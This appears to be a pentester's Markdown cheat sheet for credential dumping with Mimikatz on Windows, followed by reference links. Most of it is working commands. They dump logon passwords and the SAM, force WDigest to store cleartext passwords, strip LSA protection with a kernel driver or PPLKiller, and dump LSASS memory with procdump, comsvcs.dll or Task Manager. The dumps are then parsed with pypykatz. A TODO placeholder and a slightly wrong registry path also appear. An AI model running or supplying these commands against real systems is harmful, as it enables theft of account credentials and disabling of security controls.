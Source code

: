 # Mimikatz

## 01 - Setup

```
PS C:\> Invoke-WebRequest -UseBasicParsing -Uri https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -OutFile mimikatz_trunk.zip
Expand-Archive .\mimikatz_trunk.zip
cd mimikatz_trunk\x64
.\mimikatz.exe
```

## 02 - Help Menu

TODO: Copy and paste the help menu for mimikatz

```
mimikatz # ::
```

## 03 - Usage

### 3.1 - LogonPasswords

Make sure the `SeDebugPrivilege` is enabled

```
C:\> whoami /priv
Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Enabled

mimikatz # privilege::debug
Privilege '20' OK
```

Audit by logging the file

```
mimikatz # log credentials.txt

mimikatz # sekurlsa::logonpasswords
```

If you receive this error

```
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

Go to the **Group Policy Management Editor** -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment -> Debug programs -> then uncheck the box **"Define these policy settings:"**

### 3.2 - SAM

```
mimikatz # lsadump::sam
```

### 3.3 - Enable Wdigest

Otherwise another way around it is to dump with **WDigest**

```
mimikatz # sekurlsa::wdigest
```

If you receive this error

```
mimikatz # sekurlsa::wdigest
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

Simply downgrades to enable mimikatz to retrieve the credentials of the windows workstation

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value "1"
```

### 3.4 - Disable LSA Protection

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

```
C:\> reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL
```

```
PS C:\> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Lsa -Name "RunAsPPL"

RunAsPL     : 1
```

- Method 1:

```
mimikatz # !+
```

Create and start a `mimidrv` service

```
C:\> sc create mimidrv binpath= C:\path\to\mimidrv.sys type= kernel start= demand

C:\> sc start mimidrv
```

```
mimikatz # !processprotect /process:lsass.exe /remove

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords

mimikatz # !processprotect /process:lsass.exe

mimikatz # !-
```

- Method 2:

```
C:\> PPLKiller.exe /installDriver

C:\> PPLKiller.exe /disableLSAProtection

C:\> PPLKiller.exe /uninstallDriver
```

### 3.5 - Dump LSASS Process

Check if the LSASS process is present

```
C:\> tasklist /fi "imagename eq lsass.exe"

PS C:\> get-process lsass
```

#### 3.5.1 - Dump the process memory

- **Method 1:** Use the legit sysinternal tool

```
C:\> procdump.exe /accepteula -ma <lsass_pid> hashmem.dmp

C:\> procdump.exe /accepteula -ma lsass.exe hashmem.dmp

C:\> windbg.exe -p .dump /ma c:\path\to\hashmem.dmp .detach .q
```

- **Method 2:** Living off the Land technique

```
C:\> rundll32.exe comsvcs.dll,Minidump "<lsass_pid> hashmem.dmp full"

PS C:\> rundll32.exe comsvcs.dll,Minidump ((Get-Process lsass).Id) hashmem.dmp full

C:\> c:\windows\system32\rundll32.exe c:\windows\system32\comsvcs.dll,Minidump <lsass_pid> hashmem.dmp full

C:\> powershell.exe -ep bypass Get-Process lsass C:\Windows\System32\Taskmgr.exe /dumpfile=C:\lsass.dmp /pid=<pid>
```

#### 3.5.2 - Dump credentials

- **Method 1:** Using pypykatz

```
$ pypykatz lsa minidump hashmem.dmp

$ pypykatz lsa -k /path/to/file_creds minidump hashmem.dmp
```

- **Method 2:** Directly dump credentials in mimikatz

```
mimikatz # sekurlsa::minidump hashmem.dmp
```

Create a log file

```
mimikatz # log dumpcreds.txt

mimikatz # sekurlsa::logonpasswords
```

---
## References

### Github

- [RedCursorSecurityConsulting: PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller)

- [itm4n: PPLdump](https://github.com/itm4n/PPLdump)

- [HarmJ0y: Invoke-WdigestDowngrade.ps1](https://gist.github.com/HarmJ0y/8fdd2d3acfbe79b730db)

- [IgniteTechnologies: Credential Dumping](https://github.com/Ignitetechnologies/Credential-Dumping)

### LOLBAS

- [LOLBAS: Comsvcs](https://lolbas-project.github.io/lolbas/Libraries/Comsvcs/)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)

### ADSecurity

- [Active Directory Security: Unofficial Guide to Mimimkatz & Command Reference](https://adsecurity.org/?page_id=1821)

### Hacking Articles

- [Hacking Articles: Credential Dumping Wdigest](https://www.hackingarticles.in/credential-dumping-wdigest/)

### Hades

- [Hades: Mimikatz Comprehensive Guide](https://hadess.io/mimikatz-comprehensive-guide/)

### Itm4na

- [itm4n: LSASS RunAsPPL](https://itm4n.github.io/lsass-runasppl/)

### WhiteOakSecurity

- [WhiteOakSecurity: Attack Defenses Dumping LSASS no Mimikatz](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)

- [FAS Data Security Compliance Program: Russian Government Cyber Activity Targeting Energy and Other Critical Infrastructure Sectors](https://datasecurity.ucsf.edu/news/russian-government-cyber-activity-targeting-energy-and-other-critical-infrastructure-sectors)

- [Configuring Additional LSA Protection](https://docs.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection)

- [RedTeamRecipe: 64 Methods For Execute Mimikatz](https://redteamrecipe.com/64-methods-for-execute-mimikatzrtc0003)